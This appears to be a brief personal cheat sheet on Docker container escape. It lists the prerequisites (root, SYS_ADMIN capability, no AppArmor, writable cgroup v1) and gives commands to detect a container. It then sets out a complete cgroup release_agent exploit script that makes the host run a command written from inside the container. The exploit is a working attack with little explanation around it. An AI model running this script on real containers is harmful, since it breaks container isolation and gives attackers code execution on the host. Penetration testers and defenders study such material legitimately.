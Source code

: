 Docker Escape

# Docker Escape
## Links
- https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/
- https://tuhrig.de/how-to-know-you-are-inside-a-docker-container/

### Requirements
- Running as root inside container
- Container must have SYS_ADMIN linux capability
- Container lacks AppArmor profile
- Cgroup v1 virtual filesystem must be mounted read-write inside the container


#### Checking if inside docker container
   - [ ] .dockerenv files
   - [ ] check control groups for /docker/
   		-  `cat /proc/1/cgroup`  
		-  `cat /proc/self/cgroup`
#### Checking if docker container has SYS_ADMIN
- attempt to perform mount command 


## Code
- Writeups online mention that the docker container must be privileged but really it seems to boil down to having the SYS_ADMIN linux capability which allows you to perform **mount**

```
mkdir /tmp/cgrp &amp;&amp; mount -t cgroup -o rdma cgroup /tmp/cgrp &amp;&amp; mkdir /tmp/cgrp/x
 
echo 1 &gt; /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo &quot;$host_path/cmd&quot; &gt; /tmp/cgrp/release_agent
 
echo '#!/bin/sh' &gt; /cmd
echo &quot;ps aux &gt; $host_path/output&quot; &gt;&gt; /cmd
chmod a+x /cmd
 
sh -c "echo \$\$ &gt; /tmp/cgrp/x/cgroup.procs";
```